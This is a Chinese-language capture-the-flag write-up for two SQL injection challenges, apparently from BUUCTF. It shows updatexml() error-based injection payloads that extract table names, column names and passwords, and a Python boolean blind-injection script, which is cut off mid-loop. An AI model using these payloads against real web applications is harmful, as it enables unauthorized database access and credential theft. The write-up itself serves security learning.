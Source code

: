 # [极客大挑战 2019]HardSQL
发现union和by都被过滤了。所以联合查询是行不通了。
这里是updatexml()报错注入。我们先了解一下updatexml()报错注入。
```py
UPDATEXML (XML_document, XPath_string, new_value); 
第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc
第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。
第三个参数：new_value，String格式，替换查找到的符合条件的数据
作用：改变文档中符合条件的节点的值
```
`updatexml(1,concat(0x7e,(database()),0x7e),1)`
因为concat函数是将其连成一个字符串，因此不会符合XPATH_string的格式，从而出现格式错误，爆出
![在这里插入图片描述](img/20210527135200905.png)
爆表
`admin'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))#`
![在这里插入图片描述](img/2021052714014881.png)

爆段
`admin'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))#`
![在这里插入图片描述](img/2021052714002287.png)
爆字段
`admin'or(updatexml(1,concat(0x7e,(select(password)from(H4rDsq1)),0x7e),1))#`
![在这里插入图片描述](img/2021052714034024.png)
因为字数限制只能爆出来前一段，我们需要用right函数爆出来后面的
`admin'or(updatexml(1,concat(0x7e,(select(right(password,30))from(H4rDsq1)),0x7e),1))#`
![在这里插入图片描述](img/20210527140633961.png)
拼接一下就出来了
`flag{f61eacc4-e798-4b23-9bd1-7fc7a0c6cc39}`
# [极客大挑战 2019]FinalSQL
根据提示是布尔盲注

这是我自己写的代码不过效率不高
```py
import requests
import string
url = "http://0d8c0a68-b3a4-431f-84f6-cc398fbe1ab5.node3.buuoj.cn/search.php?id=1^"
s = 'others~~~'
str = ''
# sql = "database()"
# sql = "select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())"
## F1naI1y,Flaaaaag
# sql = "select(group_concat(column_name))from(information_schema.columns)where(table_name='Flaaaaag')"
## id,fl4gawsl
# sql = "select(group_concat(fl4gawsl))from(Flaaaaag)"

# sql = "select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')"
## id,username,password
sql = "select(group_concat(password))from(F1naI1y)"
payload = "(ascii(substr(({}),{},1))={})^1"
url+=payload
for i in range(1000):
    for j in string.printable:
        r = requests.get(url.format(sql,i+1,ord(j)))
        if s in r.content.decode():
```